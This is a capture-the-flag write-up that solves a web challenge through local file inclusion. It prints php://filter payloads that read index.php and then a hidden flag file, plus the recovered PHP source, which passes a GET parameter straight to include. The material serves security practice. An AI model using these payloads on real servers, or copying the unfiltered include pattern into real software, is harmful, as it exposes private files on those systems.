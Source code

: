 # Challenge description

Try to find the flag from the website.

N:B: I'm a n00b developer.

Website Link

Note : Burte Force/Fuzzing not required and not allowed.

Flag Format: KCTF{S0m3_T3xt_H3re}

**Author: TareqAhmed**

-----------------------------------------------------------
img1
From the url we can tell that this is an LFI

So trying out different urls like **flag.php** , **flag.txt** didn't work until i tried **index.php** and we get this ERROR message 
img2

So it seems like it's blocking us somehow or its "filtering" us out so using this payload we can bypass that 

```
?file=php://filter/convert.base64-encode/resource=index.php
``` 
You can find more LFI payloads at this repo 

> https://github.com/payloadbox/rfi-lfi-payload-list

img3

so we just decode it ! 

```php,html
<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>

```

Now that we know where the flag is we can simply change our payload to : 

```
?file=php://filter/convert.base64-encode/resource=s3crEt_fl49.txt 
```

and we get our base64 encoded flag :

> S0NURntMMEM0TF9GMUwzXzFuY0x1NzEwbn0K

and we just decode it and here's our flag

``` KCTF{L0C4L_F1L3_1ncLu710n}  ```













